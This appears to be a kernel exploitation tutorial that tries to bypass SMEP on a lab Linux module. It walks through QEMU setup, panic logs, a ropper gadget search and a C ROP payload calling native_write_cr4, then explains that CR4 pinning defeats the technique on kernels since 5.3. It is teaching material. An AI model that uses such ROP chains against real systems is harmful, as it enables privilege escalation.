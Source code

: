 ```yaml
---
description: An old technique
---
```


# Kernel ROP - Disabling SMEP

## Setup

Using the same setuo as [ret2usr](../kernel-rop-ret2usr.md), we make one single modification in `run.sh`:

```bash
#!/bin/sh

qemu-system-x86_64 \
    -kernel bzImage \
    -initrd initramfs.cpio \
    -append "console=ttyS0 quiet loglevel=3 oops=panic nokaslr pti=off" \
    -monitor /dev/null \
    -nographic \
    -no-reboot \
    -smp cores=2 \
    -cpu qemu64,+smep \        # add this line
    -s
```

Now if we load the VM and run our exploit from last time, we get a kernel panic.

<details>

<summary>Kernel Panic</summary>

```
[    1.628455] Yes? �U"��
[    1.628692] unable to execute userspace code (SMEP?) (uid: 1000)
[    1.631337] BUG: unable to handle page fault for address: 00000000004016b9
[    1.633781] #PF: supervisor instruction fetch in kernel mode
[    1.635878] #PF: error_code(0x0011) - permissions violation
[    1.637930] PGD 1296067 P4D 1296067 PUD 1295067 PMD 1291067 PTE 7c52025
[    1.639639] Oops: 0011 [#1] SMP
[    1.640632] CPU: 0 PID: 30 Comm: exploit Tainted: G           O       6.1.0 #6
[    1.646144] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.14.0-2 04/01/2014
[    1.647030] RIP: 0010:0x4016b9
[    1.648108] Code: Unable to access opcode bytes at 0x40168f.
[    1.648952] RSP: 0018:ffffb973400c7e68 EFLAGS: 00000286
[    1.649603] RAX: 0000000000000000 RBX: 00000000004a8220 RCX: 00000000ffffefff
[    1.650321] RDX: 00000000ffffefff RSI: 00000000ffffffea RDI: ffffb973400c7d08
[    1.651031] RBP: 0000000000000000 R08: ffffffffb7ca6448 R09: 0000000000004ffb
[    1.651743] R10: 000000000000009b R11: ffffffffb7c8f2e8 R12: ffffb973400c7ef8
[    1.652455] R13: 00007ffdfe225520 R14: 0000000000000000 R15: 0000000000000000
[    1.653218] FS:  0000000001b57380(0000) GS:ffff9c1b07800000(0000) knlGS:0000000000000000
[    1.654086] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    1.654685] CR2: 00000000004016b9 CR3: 0000000001292000 CR4: 00000000001006b0
[    1.655452] Call Trace:
[    1.656167]  <TASK>
[    1.656846]  ? do_syscall_64+0x3d/0x90
[    1.658073]  ? entry_SYSCALL_64_after_hwframe+0x46/0xb0
[    1.660144]  </TASK>
[    1.660835] Modules linked in: kernel_rop(O)
[    1.662360] CR2: 00000000004016b9
[    1.663362] ---[ end trace 0000000000000000 ]---
[    1.664702] RIP: 0010:0x4016b9
[    1.665386] Code: Unable to access opcode bytes at 0x40168f.
[    1.666167] RSP: 0018:ffffb973400c7e68 EFLAGS: 00000286
[    1.668501] RAX: 0000000000000000 RBX: 00000000004a8220 RCX: 00000000ffffefff
[    1.669777] RDX: 00000000ffffefff RSI: 00000000ffffffea RDI: ffffb973400c7d08
[    1.670710] RBP: 0000000000000000 R08: ffffffffb7ca6448 R09: 0000000000004ffb
[    1.672122] R10: 000000000000009b R11: ffffffffb7c8f2e8 R12: ffffb973400c7ef8
[    1.672795] R13: 00007ffdfe225520 R14: 0000000000000000 R15: 0000000000000000
[    1.673471] FS:  0000000001b57380(0000) GS:ffff9c1b07800000(0000) knlGS:0000000000000000
[    1.673854] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    1.674124] CR2: 00000000004016b9 CR3: 0000000001292000 CR4: 00000000001006b0
[    1.674576] Kernel panic - not syncing: Fatal exception
[    1.689999] Kernel Offset: 0x36200000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
[    1.695855] ---[ end Kernel panic - not syncing: Fatal exception ]---
```

</details>

It's worth noting what it looks like for the future - especially these 3 lines:

```
[    1.628692] unable to execute userspace code (SMEP?) (uid: 1000)
[    1.631337] BUG: unable to handle page fault for address: 00000000004016b9
[    1.633781] #PF: supervisor instruction fetch in kernel mode
```

## Overwriting CR4

So, instead of just returning back to userspace, we will try to overwrite CR4. Luckily, the kernel contains a very useful function for this: [`native_write_cr4(val)`](https://elixir.bootlin.com/linux/v6.1.96/source/arch/x86/kernel/cpu/common.c#L444). This function quite literally overwrites CR4.

Assuming KASLR is still off, we can get the address of this function via `/proc/kallsyms` (if we update `init` to log us in as `root`):

```
~ # cat /proc/kallsyms | grep native_write_cr4
ffffffff8102b6d0 T native_write_cr4
```

Ok, it's located at `0xffffffff8102b6d0`. What do we want to change CR4 to? If we look at the kernel panic above, we see this line:

```
[    1.654685] CR2: 00000000004016b9 CR3: 0000000001292000 CR4: 00000000001006b0
```

CR4 is currently `0x00000000001006b0`. If we remove the 20th bit (from the smallest, zero-indexed) we get `0x6b0`.

The last thing we need to do is find some gadgets. To do this, we have to convert the `bzImage` file into a `vmlinux` ELF file so that we can run `ropper` or `ROPgadget` on it. To do this, we can run [`extract-vmlinux`](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux), from the official Linux git repository.

```bash
$ ./extract-vmlinux bzImage > vmlinux
$ file vmlinux 
vmlinux: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=3003c277e62b32aae3cfa84bb0d5775bd2941b14, stripped
```

```bash
$ ropper -f vmlinux --search "pop rdi"
0xffffffff811e08ec: pop rdi; ret;
```

### Putting it all together

All that changes in the exploit is the overflow:

```c
// overflow
uint64_t payload[20];

int i = 6;

payload[i++] = 0xffffffff811e08ec;      // pop rdi; ret
payload[i++] = 0x6b0;
payload[i++] = 0xffffffff8102b6d0;      // native_write_cr4
payload[i++] = (uint64_t) escalate;

write(fd, payload, 0);
```

We can then compile it and run.

## Failure

This fails. Why?

If we look at the resulting kernel panic, we meet an old friend:

```
[    1.542923] unable to execute userspace code (SMEP?) (uid: 0)
[    1.545224] BUG: unable to handle page fault for address: 00000000004016b9
[    1.547037] #PF: supervisor instruction fetch in kernel mode
```

SMEP is enabled again. How? If we [debug the exploit](../debugging-a-kernel-module.md), we definitely hit both the gadget and the call to `native_write_cr4()`. What gives?

Well, if we look at [the source](https://elixir.bootlin.com/linux/v6.1.96/source/arch/x86/kernel/cpu/common.c#L444), there's another feature:

```c
void __no_profile native_write_cr4(unsigned long val)
{
	unsigned long bits_changed = 0;

set_register:
	asm volatile("mov %0,%%cr4": "+r" (val) : : "memory");

	if (static_branch_likely(&cr_pinning)) {
		if (unlikely((val & cr4_pinned_mask) != cr4_pinned_bits)) {
			bits_changed = (val & cr4_pinned_mask) ^ cr4_pinned_bits;
			val = (val & ~cr4_pinned_mask) | cr4_pinned_bits;
			goto set_register;
		}
		/* Warn after we've corrected the changed bits. */
		WARN_ONCE(bits_changed, "pinned CR4 bits changed: 0x%lx!?\n",
			  bits_changed);
	}
}
```

Essentially, it will check if the `val` that we input disables any of the bits defined in `cr4_pinned_bits`. This value is [set on boot](https://elixir.bootlin.com/linux/v6.1.96/source/arch/x86/kernel/cpu/common.c#L507), and effectively stops "sensitive CR bits" from being modified. If they are, they are **unset**. Effectively, modifying CR4 doesn't work any longer - and hasn't since [version 5.3-rc1](https://elixir.bootlin.com/linux/v5.3-rc1/source/arch/x86/kernel/cpu/common.c#L431).
